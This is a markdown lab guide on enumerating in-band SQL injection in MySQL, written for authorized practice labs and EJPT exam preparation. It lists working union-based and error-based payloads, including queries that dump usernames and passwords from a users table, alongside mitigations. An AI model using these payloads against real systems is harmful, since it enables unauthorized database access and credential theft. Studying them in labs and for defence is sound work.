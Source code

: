 # Lab Guide: Enumerating an In-Band SQL Injection (Union-based & Error-based)

**Purpose:** A concise, practical step-by-step guide to enumerate and extract data from a web application vulnerable to In‑Band SQL Injection (Union‑based and Error‑based). Intended for authorized lab practice (DVWA, bWAPP, WebGoat, etc.) and exam preparation (EJPT).

---

## Quick Summary
- **In‑Band SQLi:** attacker receives query results through the same HTTP response channel.
- **Two common subtypes:** **Union‑based** (uses `UNION SELECT`) and **Error‑based** (forces DB errors to leak data).

---

## Step‑by‑Step Enumeration

### 1) Find candidate inputs
- Inspect pages, forms, query parameters, JSON bodies, cookies, and headers.
- Quick test: append `'` (single quote) to parameters and look for syntax errors or changed responses.
  - Example: `http://lab/vuln.php?id=1'`

### 2) Confirm SQLi (basic boolean tests)
- `id=1 OR 1=1 -- -` (should show more/equal content)
- `id=1 AND 1=2 -- -` (should show less/different content)
- If responses change consistently => likely injectable.

### 3) Determine In‑Band subtype
- **Union‑based test:** attempt `UNION SELECT` with guessed column counts until it renders controlled content.
- **Error‑based test (MySQL):**
  ```
  id=1 AND updatexml(1,concat(0x7e,(select database()),0x7e),1)-- -
  ```
  If the error message includes `~<dbname>~` it's error‑based.

### 4) Find number of columns (UNION technique)
- `ORDER BY` approach:
  ```
  id=1 ORDER BY 1-- -
  id=1 ORDER BY 2-- -
  ...
  ```
  When it fails, the last successful number is the column count.
- `UNION NULL` approach:
  ```
  id=1 UNION SELECT NULL-- -
  id=1 UNION SELECT NULL,NULL-- -
  ...
  ```

### 5) Locate visible column(s)
- Use `UNION SELECT` with marker strings:
  ```
  id=1 UNION SELECT 'col1','col2',NULL-- -
  ```
  The column whose value shows in the page is a visible column you can use to leak data.

### 6) Extract schema information (examples for MySQL)
- Current database:
  ```
  id=1 UNION SELECT NULL, database(), NULL-- -
  ```
- List tables in current DB:
  ```
  id=1 UNION SELECT NULL, group_concat(table_name), NULL FROM information_schema.tables WHERE table_schema=database()-- -
  ```
- List columns of a table (e.g., `users`):
  ```
  id=1 UNION SELECT NULL, group_concat(column_name), NULL FROM information_schema.columns WHERE table_name='users'-- -
  ```
- Dump rows (e.g., `username:password`):
  ```
  id=1 UNION SELECT NULL, group_concat(username,0x3a,password SEPARATOR 0x2c), NULL FROM users-- -
  ```

### 7) Error‑based extraction (alternative)
- When `UNION` is blocked, use functions that cause DB errors embedding selected values:
  ```
  id=1 AND updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1)-- -
  ```
- The DB error message will contain the requested data if errors are shown.

## General Enumeration Steps (condensed)
1. Find inputs: GET/POST params, headers, cookies, JSON bodies.
2. Confirm injection: `'`, `"`, boolean tests (`OR 1=1`, `AND 1=2`).
3. Use `UNION SELECT` to discover number of columns and visible column positions.
4. Force original query to return no rows (e.g., use `id=0`) so `UNION` output is rendered.
5. Use `database()`, `information_schema.tables`, `information_schema.columns`, and `group_concat()` to enumerate schema and data.
6. If `UNION` is blocked, try error‑based techniques (e.g., `updatexml()` in MySQL) or blind/time injections as alternatives.

---

## Useful Payloads (MySQL examples)
- Basic boolean:
  ```
  ' OR '1'='1' -- -
  ```
- UNION show DB (2 visible columns example):
  ```
  1 UNION SELECT NULL, database() -- -
  ```
- Error-based leak:
  ```
  1 AND updatexml(1,concat(0x7e,(select database()),0x7e),1)-- -
  ```

---

## Non‑Destructive Practice Rules
- Use only `SELECT` queries; avoid `INSERT`, `UPDATE`, `DELETE`, `DROP`.
- Record all requests/responses and timestamps as evidence.

---

## Post‑Enumeration Checklist (for report)
- Parameter(s) vulnerable, location (URL, POST body, header).
- Subtype (Union / Error / Both).
- Proof of concept: request and response (screenshot or raw HTTP).
- Data extracted (example rows) and impact assessment.
- Mitigations recommended.

---

## Mitigations & Recommendations
- Use prepared statements / parameterized queries (avoid string concatenation).
- Implement proper input validation and output encoding.
- Use least‑privilege DB accounts for application connections.
- Disable verbose DB error messages in production; log internally.
- Use WAF rules to detect and block common SQLi payloads; perform regular pentests.

---

## Tools & Resources
- Burp Suite (Proxy, Repeater)
- sqlmap
- curl / httpie
- DVWA, bWAPP, WebGoat (training labs)
- DB clients (mysql, psql) for local testing

---

## Short Study Notes (for quick revision)
- In‑Band = data comes back in same HTTP response.
- UNION = combine attacker columns with legitimate query.
- Error = force DB error that echoes data.
- Always get permission before testing.

---
